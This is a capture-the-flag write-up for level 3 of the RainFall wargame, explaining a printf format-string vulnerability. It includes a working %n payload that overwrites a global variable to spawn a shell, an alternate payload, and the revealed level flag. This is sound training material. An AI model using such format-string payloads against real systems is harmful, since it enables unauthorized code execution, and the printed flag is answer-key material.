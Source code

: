 # Level 3

As usual, there is a binary which we decompiled [here](./level3_decomp.c).

The `return system("/bin/sh")` jumps to our eyes, it requires to pass a check, `m` must be equal to `64`. Easy, right?

We don't have a big impact on aything except the printf located later which prints our buffer. Good news for us, that's all we need.

## Exploit

We will need to change the value of `m` to pass our check and open a shell, so first thing first, we need to find its address:

```bash
level3@RainFall:~$ objdump -t level3 | grep m
level3:     file format elf32-i386
080481b8 l    d  .dynsym        00000000              .dynsym
08048618 l    d  .eh_frame_hdr  00000000              .eh_frame_hdr
08048654 l    d  .eh_frame      00000000              .eh_frame
0804974c l    d  .dynamic       00000000              .dynamic
00000000 l    d  .comment       00000000              .comment
08049884 l     O .bss   00000001              completed.6159
08048480 l     F .text  00000000              frame_dummy
08048734 l     O .eh_frame      00000000              __FRAME_END__
0804974c l     O .dynamic       00000000              _DYNAMIC
00000000       F *UND*  00000000              system@@GLIBC_2.0
00000000  w      *UND*  00000000              __gmon_start__
00000000       F *UND*  00000000              __libc_start_main@@GLIBC_2.0
0804988c g     O .bss   00000004              m
0804851a g     F .text  0000000d              main
level3@RainFall:~$
```

So we know the adress of m: `0804988c`.

Now the fact that `printf(buff)` is used makes it vulnerable compared to `printf("%s\n", buff)`. Which means our string will be replaced like well, inside a printf!

For example: 

```bash
level3@RainFall:~$ ./level3
aaaa %x %x %x %x
aaaa 200 b7fd1ac0 b7ff37d0 61616161
```

It prints our string, then the address of ENV, some more addresses for locals and finally, our string.

And now, we can use something clever, we can input the adress of `m` as the first parameters, then use `%x` to pop the element of the stack until we arrive at the address of `m`, and write what we want!
`%n` is used to write the bytes we wrote with printf, to the last address pushed onto the stack so m, it will write 49 + the previous bytes = 64 to `m`:

<details>
    <summary>Spoiler</summary>

  And now, we can use something clever, we can input the adress of `m` as the first parameters, then use `%x` to pop the element of the stack until we arrive at the address of `m`, and write what we want!
  `%n` is used to write the bytes we wrote with printf, to the last address pushed onto the stack so m, it will write 49 + the previous bytes = 64 to `m`:

    ```bash
    level3@RainFall:~$ python -c 'print "\x8c\x98\x04\x08" + "%x%x%49u%n"' > /var/crash/write
    level3@RainFall:~$ cat /var/crash/write - | ./level3
    ��200b7fd1ac0                                       3086956496
    Wait what?!
    cat /home/user/level4/.pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
    ```

</details>



### Alternate write

<details>
    <summary>Spoiler</summary>

We can also substitute the `49u` and instead print 38 a, which will produce the same result!

```bash
python2 -c 'print "\x8c\x98\x04\x08" + "%x "*3 + "a"*38 + "%n"' > /var/crash/write
```

</details>


We can also substitute the `49u` and instead print 38 a, which will produce the same result!

```bash
python2 -c 'print "\x8c\x98\x04\x08" + "%x "*3 + "a"*38 + "%n"' > /var/crash/write
```

b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
